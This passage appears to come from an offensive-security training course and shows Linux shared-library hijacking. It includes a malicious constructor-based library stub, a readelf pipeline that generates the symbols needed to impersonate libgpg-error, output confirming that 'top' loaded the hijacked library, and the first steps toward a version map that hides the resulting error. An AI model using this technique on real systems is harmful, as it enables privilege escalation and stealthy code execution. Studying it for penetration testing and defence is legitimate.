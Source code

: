 > Listing 50 - The output gets the symbols associated with our hijacked library and makes C variables for them as output

The result is a list of variable definitions, one for each missing symbol, that we can copy and paste just under our initial constructor definition in our hax.c source code file.

```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h> // for setuid/setgid

static void runmahpayload() __attribute__((constructor));

int gpgrt_onclose;
int _gpgrt_putc_overflow;
int gpgrt_feof_unlocked;
...
```

> Listing 51 - The new symbols in our source code

After recompiling and setting the _LD\_LIBRARY\_PATH_ variable again, this time when we run top, we get the result we wanted.

```
offsec@linuxvictim:~/ldlib$ top
top: /home/offsec/ldlib/libgpg-error.so.0: no version information available (required by /lib/x86_64-linux-gnu/libgcrypt.so.20)
DLL HIJACKING IN PROGRESS 
...
```

> Listing 52 - Our hijacking worked properly

Unfortunately, we notice an obvious error message about the shared library's version information. Not all supporting libraries require version information, so this does not always occur. If we were to hijack a different library, we may not receive this error. In this case, however, it seems that _libgcrypt_ does require version information in associated libraries. Thankfully, we can fix this with the help of a map[10](https://portal.offsec.com/courses/pen-300-9502/learning/linux-post-exploitation-14697/linux-post-exploitation-14872#fn-local_id_436-10) file that identifies particular symbols as being associated with a given version of the library.

First, we'll run a modified version of our previous readelf command, this time omitting "int" before the symbol names.

```
offsec@linuxvictim:~/ldlib$ readelf -s --wide /lib/x86_64-linux-gnu/libgpg-error.so.0 | grep FUNC | grep GPG_ERROR | awk '{print $8}' | sed 's/@@GPG_ERROR_1.0/;/g'
gpgrt_onclose;
_gpgrt_putc_overflow;
gpgrt_feof_unlocked;
gpgrt_vbsprintf;
...
```

> Listing 53 - Getting symbol names
